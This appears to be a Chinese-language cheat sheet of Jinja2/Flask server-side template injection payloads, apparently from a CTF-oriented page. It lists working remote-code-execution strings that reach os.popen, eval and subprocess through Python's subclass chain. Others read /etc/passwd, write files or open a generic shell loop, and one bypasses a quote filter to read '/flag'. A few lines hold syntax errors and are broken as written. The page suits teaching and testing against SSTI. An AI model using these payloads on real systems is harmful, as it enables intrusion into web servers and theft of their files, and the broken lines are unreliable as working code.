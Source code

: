 
### ==RCE==

```py
# 利用warnings.catch_warnings配合__builtins__得到eval函数，直接梭哈（常用）
{{[].__class__.__base__.__subclasses__()[138].__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()}}

# 利用os._wrap_close类所属空间下可用的popen函数进行RCE的payload
{{"".__class__.__base__.__subclasses__()[128].__init__.__globals__.popen('whoami').read()}}
{{"".__class__.__base__.__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}

# 利用subprocess.Popen类进行RCE的payload
{{''.__class__.__base__.__subclasses__()[479]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}

# 利用__import__导入os模块进行利用
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}

# 利用linecache类所属空间下可用的os模块进行RCE的payload，假设linecache为第250个子类
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}
{{[].__class__.__base__.__subclasses__()[250].__init__.func_globals['linecache'].__dict__.['os'].popen('whoami').read()}}

# 利用file类（python3将file类删除了，因此只有python2可用）进行文件读
{{[].__class__.__base__.__subclasses__()[40]('etc/passwd').read()}}
{{[].__class__.__base__.__subclasses__()[40]('etc/passwd').readlines()}}
# 利用file类进行文件写（python2的str类型不直接从属于属于基类，所以要两次 .__bases__）
{{"".__class__.__bases[0]__.__bases__[0].__subclasses__()[40]('/tmp').write('test')}}

# 通用getshell，都是通过__builtins__调用eval进行代码执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
# 读写文件，通过__builtins__调用open进行文件读写
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```



## 绕过姿势

### 过滤了单引号'

内置函数进行参数逃逸

```
{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__[request.args.x](request.args.y).read()}}&x=popen&y=cat /flag
```
